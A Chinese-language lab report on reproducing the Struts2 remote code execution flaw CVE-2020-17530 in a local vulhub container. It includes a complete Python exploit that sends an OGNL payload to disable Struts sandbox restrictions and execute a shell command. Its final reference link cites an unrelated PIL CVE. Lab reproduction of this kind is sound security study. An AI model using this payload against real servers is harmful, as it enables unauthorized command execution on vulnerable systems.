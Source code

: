 # 实验报告

## 漏洞类型

- Struts2 Remote Code Execution Vulnerablity (CVE-2020-17530)
  
![](./image/nvd.jpg)
## 实验环境

- kali 2023
- docker-compose
- vulhub


## 实验步骤

### 环境搭建

利用kali虚拟机，安装docker-compose，搭建vulhub环境

```bash
git clone https://github.com/vulhub/vulhub.git
```

- 进入对应漏洞目录

  ```bash
  cd vulhub/struts2/s2-061
  ```

- 环境搭建

  ```bash
  docker-compose up -d
  ```

- 在浏览器里访问靶场，链接为https://localhost:8080/，也可以是https://<kali-ip>:8080/

    ![](./image/page.jpg)

- exp.py的内容如下：

```python
import requests

url = "http://localhost:8080/index.action"
headers = {"Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Accept-Language": "en", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36", "Connection": "close", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF"}
data = "------WebKitFormBoundaryl7d1B1aGsV2wcZwF\r\nContent-Disposition: form-data; name=\"id\"\r\n\r\n%{(#instancemanager=#application[\"org.apache.tomcat.InstanceManager\"]).(#stack=#attr[\"com.opensymphony.xwork2.util.ValueStack.ValueStack\"]).(#bean=#instancemanager.newInstance(\"org.apache.commons.collections.BeanMap\")).(#bean.setBean(#stack)).(#context=#bean.get(\"context\")).(#bean.setBean(#context)).(#macc=#bean.get(\"memberAccess\")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance(\"java.util.HashSet\")).(#bean.put(\"excludedClasses\",#emptyset)).(#bean.put(\"excludedPackageNames\",#emptyset)).(#arglist=#instancemanager.newInstance(\"java.util.ArrayList\")).(#arglist.add(\"id\")).(#execute=#instancemanager.newInstance(\"freemarker.template.utility.Execute\")).(#execute.exec(#arglist))}\r\n------WebKitFormBoundaryl7d1B1aGsV2wcZwF--"
response = requests.post(url, headers=headers, data=data)
print(response.text)
```

- 执行`python exp.py`，其返回值的id的内容就是命令执行结果

  ![](./image/exp.png)

### 参考链接

[CVE-2017-8291](https://github.com/vulhub/vulhub/tree/master/python/PIL-CVE-2017-8291)